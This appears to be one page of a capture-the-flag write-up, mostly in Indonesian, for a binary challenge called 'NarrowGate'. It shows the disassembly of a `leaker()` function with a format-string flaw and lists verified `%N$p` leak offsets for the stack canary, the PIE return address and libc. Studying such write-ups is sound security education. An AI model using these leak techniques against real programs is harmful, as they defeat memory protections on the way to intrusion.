


# NarrowGate — `leaker()` — format string

[← Overview](38-narrowgate.md) · [Index](index.md)

## 2.1 `leaker()` — format string

```asm
11e9: leaker:
11ed: sub rsp, 0xb0
11f4: mov rax, fs:0x28
11fd: mov [rbp-0x8], rax          # canary
1203: lea rax, [rip+0xdfa]        # "name> "
1212: call printf
1217: mov rax, [stdout]
1221: call fflush
1226: mov rdx, [stdin]
122d: lea rax, [rbp-0xb0]         # buffer 0xb0
1234: mov esi, 0xa0               # fgets 0xa0 -> aman
123c: call fgets
...
1267: lea rax, [rip+0xd9f]        # "hello, "
1276: call printf
127b: lea rax, [rbp-0xb0]
128a: call printf                 # printf(nickname)
```

Format string, tanpa overflow di `leaker`. Indeks yang diverifikasi (`assets/narrowgate/03b-leak-probe.txt`):

```text
%27$p = hello, 0x8f084ec4da706800     # canary
%29$p = hello, 0x79c08f5b754b        # return ke main (PIE + 0x154b)
%43$p = hello, 0x7131a2629d90        # return main -> libc (libc + 0x29d90)
```

### Evidence langkah ini



*Terminal evidence — `02-disasm.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `02b-seccomp.txt` (arsip transkrip sesi solve).*
